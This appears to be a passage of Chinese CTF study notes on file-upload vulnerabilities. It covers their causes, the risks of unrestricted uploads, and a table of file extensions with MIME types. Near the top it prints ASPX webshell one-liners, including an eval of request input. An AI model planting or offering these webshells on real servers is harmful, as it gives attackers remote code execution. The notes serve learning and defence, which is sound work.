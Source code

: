 ### ASPX

```
&lt;scriptrunat=”server”&gt;WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);&lt;/script&gt; 

&lt;script language=&#34;C#&#34;runat=&#34;server&#34;&gt;WebAdmin2Y.x.y a=new WebAdmin2Y.x.y(&#34;add6bb58e139be10&#34;)&lt;/script&gt; 

&lt;%eval request(chr(35))%&gt;  不用双引号的一句话。
```

## 漏洞产生原因

* 对于上传文件的后缀名（扩展名）没有做较为严格的限制
* 对于上传文件的MIMETYPE(用于描述文件的类型的一种表述方法) 没有做检查
* 权限上没有对于上传的文件目录设置不可执行权限，（尤其是对于shebang类型的文件）
* 对于web server对于上传文件或者指定目录的行为没有做限制

## 常见安全问题

* 上传文件是Web脚本语言，服务器的Web容器解释并执行了用户上传的脚本,导致代码执行;
* 上传文件是Flash的策略文件crossdomain.xml,黑客用以控制Flash在该域下的行为(其他通过类似方式控制策略文件的情况类似);
* 上传文件是病毒、木马文件，黑客用以诱骗用户或者管理员下载执行:
* 上传文件是钓鱼图片或为包含了脚本的图片，在某些版本的浏览器中会被作为脚本执行，被用于钓鱼和欺诈

除此之外，还有一些不常见的利用方法，比如将上传文件作为一个入口,溢出服务器的后台处理程序，如图片解析模块;或者上传-一个合法的文本文件， 其内容包含了PHP脚本，再通过“本地文件包含漏洞(Local File Include)&#34;执行此脚本;等

## Web做题！！

&gt; 重要部分捏🎄

### 常见文件后缀

| 文件后缀          | Mime类型                                | 说明                           |
| ----------------- | --------------------------------------- | ------------------------------ |
| .flv              | flv/flv-flash                           | 在线播放                       |
| .html或.htm       | text/html                               | 超文本标记语言文本             |
| .rtf              | application/rtf                         | RTF文本                        |
| .gif 或.png       | image/gif (image/png)                   | GIF图形/PNG图片                |
| .jpeg或.jpg       | image/jpeg                              | JPEG图形                       |
| .au               | audio/basic                             | au声音文件                     |
| .mid或.midi       | audio/midi 或 audio/x-midi              | MIDI音乐文件                   |
| .ra或.ram或.rm    | audio/x-pn-realaudio                    | RealAudio音乐文件              |
| .mpg或.mpeg或.mp3 | video/mpeg                              | MPEG文件                       |
| .avi              | video/x-msvideo                         | AVI文件                        |
| .gz               | application/x-gzip                      | GZIP文件                       |
| .tar              | application/x-tar                       | TAR文件                        |
| .exe              | application/octet-stream                | 下载文件类型                   |
| .rmvb             | video/vnd.rn-realvideo                  | 在线播放                       |
| .txt              | text/plain                              | 普通文本                       |
| .mrp              | application/octet-stream                | MRP文件（国内普遍的手机）      |